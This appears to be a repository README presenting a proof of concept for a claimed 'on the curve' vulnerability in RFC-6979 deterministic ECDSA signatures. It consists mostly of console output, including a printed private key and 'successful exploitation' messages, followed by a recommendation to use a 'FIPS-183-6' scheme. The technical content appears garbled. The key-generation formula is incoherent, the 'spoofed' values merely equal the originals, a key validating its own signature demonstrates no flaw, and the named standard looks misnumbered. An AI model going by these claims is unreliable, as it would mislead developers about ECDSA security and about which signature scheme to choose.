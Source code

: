 # ECC-On-The-Curve-Vuln

## Exploiting RFC-6979 Signatures

### Issue:

ECDSA RFC-6979 deterministic signatures will improperly validate keys crafted to be on the curve of X an Y values of the key. In this proof-of-concept ECDSA keys are generated with ```length = x+y ``` and ```d = random(length)-(x+y)```.

### Proof of Concept:

```
 python .\ECCTool.py
X: 4105375390653649233713119777321734233266869078187987018407577420645365974521940631581724628993333063239514030334497
Y: 27675056301647551922849568396717635354139598802203471838229080227718009101673931134993105203564358052385576850782585
D: 26793557753140975773174731052224928334431547358353296101583685504935573483262011314276714581521552457831829802333090
------------------------------------------------------------------------------
Spoofed X: 4105375390653649233713119777321734233266869078187987018407577420645365974521940631581724628993333063239514030334497
X matches
Spoofed Y: 27675056301647551922849568396717635354139598802203471838229080227718009101673931134993105203564358052385576850782585
Y matches
------------------------------------------------------------------------------
Testing deterministic-rfc6979 signature
Exporting Key
-----BEGIN PRIVATE KEY-----
MIG2AgEAMBAGByqGSM49AgEGBSuBBAAiBIGeMIGbAgEBBDCuFM1J01vbMBqK9bGh
kq6TZfSDk2Q9oVN9uidAReRAwf375SsF9HfMTmS7YRZ8M6KhZANiAAQarFRaqflo
I+d61SRvU8Za2EurxtW20eZzca7dnNYMYf3boIkDuAUU7FfO7l0/4iGzzvfUinng
o4N+LZfQYcTxmdwlkWOrfzCjtHDix6EznPO/LlxTsV+zfTJ/ijTjeXk=
-----END PRIVATE KEY-----
deterministic-rfc6979 signature generated
deterministic-rfc6979 signature is validated!
Successful exploitation of on the curve vulnerability!
------------------------------------------------------------------------------
Testing FIPS-183-6 signature
FIPS-183-6 Invalid Signature!
------------------------------------------------------------------------------
Results for 'On the Curve Vulnerability':
RFC 6979: True
FIPS-183-6: False
```

### Recommendation:

Use 'FIPS-183-6' signature schema. The 'On the Curve' vulnerability does not impact FIPS-183-6.
